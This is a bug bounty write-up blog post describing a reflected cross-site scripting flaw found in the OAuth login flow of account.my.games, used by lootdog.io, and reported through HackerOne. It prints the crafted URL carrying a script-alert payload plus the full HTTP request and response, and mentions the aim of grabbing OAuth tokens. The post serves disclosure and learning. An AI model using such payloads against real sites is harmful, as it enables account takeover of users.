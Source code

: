 ```yaml
---
title: "Reflected XSS on a Public Program"
layout: post
date: 2021-02-08 12:00
tag:
- XSS
- Misconfiguration
description: Reflected XSS on a Public Program.
---
```


# Target
Target is https://lootdog.io/ from mailru which had a large scope on HackerOne. After an hour of recon, I found an unintended behavior in the Oauth request so I decided to play around.

## Technical Analysis
I intercepted the login request from https://lootdog.io/ and sent it to the repeater and observed the way the Oauth works. The https://lootdog.io/ uses https://account.my.games as an Oauth service when you click login it will redirect you to https://account.my.games and will let you log in if you have a legitimate account. So I decided to check for Reflected XSS or any Open redirect issues to grab the Oauth token to take Over the user's account.

I added an extra parameter at the end of the keyed value on the request as below,

`&Set-Cookie: <script>alert(“Hacked By Deathstroke”)</script>`

The finally crafted URL will be like as below,

```
https://account.my.games//oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script>
```

After inserted the payload at the end of the URL sent the request as below and observed the response.

## Request

```http
GET /oauth2/login/?continue=https%3A%2F%2Faccount.my.games%2Foauth2%2F%3Fredirect_uri%3Dhttps%253A%252F%252Flootdog.io%252Fsocial%252Fcomplete%252Fo2mygames%252F%26client_id%3Dlootdog_io%26response_type%3Dcode%26signup_social%3Dmailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw%26signup_method%3Demail%252Cphone%26lang%3DEN&client_id=lootdog_io&lang=EN&signup_method=email%2Cphone&signup_social=mailru%2Cfb%2Cok%2Cvk%2Cg%2Ctwitch%2Ctw&Set-Cookie: <script>alert("Hacked By Deathstroke")</script> HTTP/1.1 
Host: account.my.games 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://lootdog.io/ 
Connection: close
```

## Response

```http
<script>alert("Hacked By Deathstroke")</script> HTTP/1.0 200 OK Content-Type: text/html; charset=utf-8 
X-Frame-Options: SAMEORIGIN 
Content-Length: 3982 
Vary: Origin
```

But unfortunately, no access token is reflected on the response at the time. But I reported to the program because the issue may cause some other security threats.

![img](1.webp)

Seems that the payload worked which is reflected on the HTTP response.

![img](2.webp)

It was my first Vulnerability that I found, so I quickly created a report and sent it to HackerOne. The HackerOne analyst verified the vulnerability and triaged the report after some discussions and the issue was resolved and they rewarded me a HOF.

Thank you for reading.

Follow me on Twitter : [thevillagehacker](https://twitter.com/thevillagehackr)